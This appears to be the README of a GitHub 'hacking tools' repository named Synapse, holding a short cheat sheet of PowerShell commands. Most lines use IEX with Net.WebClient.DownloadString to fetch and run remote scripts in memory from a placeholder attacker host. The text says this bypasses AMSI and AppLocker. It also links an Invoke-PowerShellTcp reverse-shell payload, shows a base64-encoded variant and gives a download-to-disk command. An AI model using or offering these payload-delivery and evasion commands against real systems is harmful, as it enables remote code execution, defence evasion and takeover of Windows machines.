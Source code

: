 # Synapse

> Repo for {Hacking Tools}

# Get files
## IEX (Doesnt touch disk - Helps to bypass AMSI/Applocker)
`IEX (New-Object Net.WebClient).DownloadString('http://xxxxx:9000/somefile')`

Where xxx can be [Invoke_PowerShellTcp](https://github.com/evilNeuron/Synapse/blob/master/Windows/Exploitation/Invoke-PowerShellTcp_1337.ps1)

`powershell -c IEX (New-Object Net.WebClient).DownloadString('http://xxxxx:9000/somefile')`

`C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe -c IEX (New-Object Net.WebClient).DownloadString('http://xxxxx:9000/somefile')`
### Encoded (run in linux)
`echo powershell -EncodedCommand $(echo -n "IEX (New-Object Net.WebClient).DownloadString('http://$LHOST:$PORT/$FILE')" | iconv  -t UTF-16LE | base64 -w0)`

## Write to disk
`invoke-webrequest -Uri http://xxxxx:9000/somefile -OutFile somefile`
